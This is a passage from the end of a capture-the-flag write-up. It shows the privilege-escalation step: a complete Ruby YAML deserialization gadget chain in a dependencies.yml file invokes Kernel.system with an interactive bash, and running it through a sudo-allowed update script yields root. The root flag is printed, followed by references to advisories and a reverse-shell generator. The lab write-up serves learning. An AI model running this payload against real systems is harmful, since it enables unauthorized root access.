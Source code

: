 And finally, to open a root shell, I just replaced `id` with `/bin/bash -i`:

```bash
$ cat dependencies.yml 
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "/bin/bash -i"
         method_id: :resolve
$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt 
3b2de2dffebaa79e8828bf008967167a
```

## Referemce List

https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795

https://github.com/advisories/GHSA-rhwx-hjx2-x4qr

https://www.ctfiot.com/84447.html

https://readysteadycode.com/howto-execute-shell-commands-with-ruby-backticks

https://www.revshells.com/

https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/
